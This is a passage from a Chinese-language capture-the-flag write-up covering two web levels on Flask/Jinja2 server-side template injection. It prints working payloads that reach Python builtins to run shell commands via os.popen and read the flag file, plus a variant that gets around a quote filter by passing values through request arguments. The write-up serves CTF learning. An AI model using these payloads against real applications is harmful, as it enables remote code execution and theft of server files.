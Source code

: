 ### [web 362](#toc_web-362)

上面的 payload 不管用了，这里可以用一个通用 payload  
原理就是找到含有\_\_builtins\_\_的类，然后利用。

```plain
{{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('tac /flag').read()") }}
```

[![在这里插入图片描述](assets/1698900310-5c1eeca3076ed853e0a16903e1507125.png)](https://storage.tttang.com/media/attachment/2022/08/14/5a13b746-0cde-4bc3-a01d-6e1f059ae20b.png)  
也可以这样

```plain
{{c.__init__.__globals__['__builtins__'].open('/flag', 'r').read()}}
```

[![在这里插入图片描述](assets/1698900310-3f293229a1b6cc230dca501bcd57e443.png)](https://storage.tttang.com/media/attachment/2022/08/14/df2a5c3d-37f5-4bbc-b5f5-eab4104e4472.png)

### [web 363](#toc_web-363)

过滤了单引号和双引号，我们这里可以利用变量赋值，再引用变量即可  
args 只获取地址栏中参数，不分 get 请求方式还是 post 请求方式。 
原 payload

```plain
{{c.__init__.__globals__['__builtins__'].open('/flag', 'r').read()}}
```

经过简单修改后的 payload

```plain
a=__builtins__&b=/flag&c=r&name={{c.__init__.__globals__[request.args.a].open(request.args.b, request.args.c).read()}}
```
